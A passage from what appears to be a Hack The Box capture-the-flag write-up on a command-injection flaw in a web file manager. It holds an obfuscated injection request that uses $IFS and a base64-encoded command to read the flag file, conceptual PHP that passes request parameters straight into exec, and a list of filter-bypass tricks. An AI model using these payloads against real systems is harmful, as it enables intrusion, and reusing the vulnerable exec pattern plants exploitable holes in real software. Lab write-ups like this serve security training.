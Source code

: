 **Modified Request:**
```http
GET /index.php?to=tmp$IFS%26b"a"sh<<<$(base64%09-d<<<Y2F0IC9mbGFnLnR4dA==)&from=51459716.txt&finish=1&move=1 HTTP/1.1
```

### Phase 6: Flag Extraction

**Step 15: Analyze Response**

Both payloads will return the flag in the error message section of the HTTP response.

**Expected Flag:**
```
HTB{c0mm4nd3r_1nj3c70r}
```

---

## Technical Analysis

### Vulnerability Details

**Injection Point:** GET parameters in web file manager
```php
// Vulnerable backend code (conceptual)
$to = $_GET['to'];
$from = $_GET['from'];
exec("mv $from $to", $output, $return_code);
```

**Root Cause:**
- Insufficient input validation
- Direct parameter interpolation into system commands
- Error message disclosure

### Filter Analysis

**Implemented Filters:**
- ✅ Semicolon (`;`) blocked
- ✅ Pipe (`|`) blocked  
- ✅ AND (`&&`) blocked
- ❌ Ampersand (`&`) **whitelisted**

**Filter Bypass Strategy:**
- **Space bypass:** `$IFS` environment variable
- **Slash bypass:** `${PATH:0:1}` character extraction
- **Command obfuscation:** Quote injection (`c"a"t`)
- **Encoding:** Base64 for complex commands

---

## Alternative Exploitation Methods

